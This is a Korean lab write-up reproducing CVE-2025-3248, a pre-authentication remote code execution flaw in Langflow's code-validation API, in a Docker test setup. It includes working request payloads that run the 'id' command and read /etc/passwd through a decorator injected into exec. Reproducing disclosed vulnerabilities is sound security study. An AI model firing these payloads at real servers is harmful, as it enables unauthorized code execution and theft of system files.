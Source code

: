 # Langflow validate/code API Pre-Auth 원격 코드 실행 (CVE-2025-3248) 

> 화이트햇 스쿨 3기 29반 - [장인영 (@inyeongjang)](https://github.com/inyeongjang)

<br/>

## 개요

**Langflow**

Langflow는 대규모 언어 모델(LLM)과 다양한 데이터 소스를 활용하여 AI 애플리케이션을 시각적으로 설계하고 구축할 수 있는 low-code 플랫폼입니다. Pyhton 기반으로 개발되었으며, 특정 모델, API, 데이터베이스에 구애받지 않고 유연하게 사용할 수 있습니다. 

**CVE-2025-3248**

Langflow 1.3.0 버전 미만에는, 인증 없이 원격 코드 실행(RCE)이 가능한 심각한 취약점 CVE-2025-3248이 존재합니다. 

해당 취약점은 LLM이 생성한 코드를 검증하는 API `/api/v1/validate/code`에서 발생합니다. 

사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는데, Python에서는 함수 정의 시 데코레이터(decorator) 와 기본 인자(default arguments) 도 함께 실행됩니다. 이를 악용하면 악성 코드를 삽입할 수 있으며, 결과적으로 공격자가 서버 사용자 권한으로 임의의 코드를 실행할 수 있게 됩니다. 

본 보고서에서는 Docker 기반으로 CVE-2025-3248을 검증하는 환경을 구축하고 실제 공격 과정을 재현합니다. 

<br/>

## 환경 구축 (Environment Setup)

1. 취약한 Langflow 1.2.0 버전을 Docker로 실행합니다.

   ```
   docker compose up -d
   ```
   
2. 서버가 시작되면, 아래 주소로 웹 인터페이스에 접속할 수 있습니다.

   ```
   http://your-ip:7860 
   ```
   ![Langflow 실행 화면](./images/1.png)

4. 기본 로그인 계정으로 로그인합니다.

   아이디: `administrator`

   비밀번호: `vulhub`

   ![Langflow 실행 화면](./images/2.png)

<br/>

## 취약점 재현 (Vulnerability Reproduction)

프록시 도구를 이용해 `/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송합니다. 

다음은 서버에서 id 명령어를 실행하는 공격 페이로드입니다. 

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

요청이 성공하면, 서버 측에서 id 명령이 실행되고 결과가 노출됩니다. 이러한 방식으로 임의 명령어 실행이 가능함을 확인할 수 있습니다. 

![실행 결과 화면](./images/3.png)

**추가 공격 예시**

다음은 서버의 /etc/passwd 파일 내용을 읽어 메시지로 출력하는 페이로드입니다. 

```
{
  "code": "@exec(\"raise Exception(open('/etc/passwd').read())\")\ndef foo():\n  pass"
}
```

![실행 결과 화면](./images/4.png)

<br/>

## 참고 자료 (References) 

https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/

https://github.com/langflow-ai/langflow/releases/tag/1.3.0
langflow-ai/langflow#6911

https://wikidocs.net/book/16986 

https://github.com/vulhub/vulhub/tree/master/langflow/CVE-2025-3248

https://hackyboiz.github.io/2025/04/13/mungsul/2025-04-12/


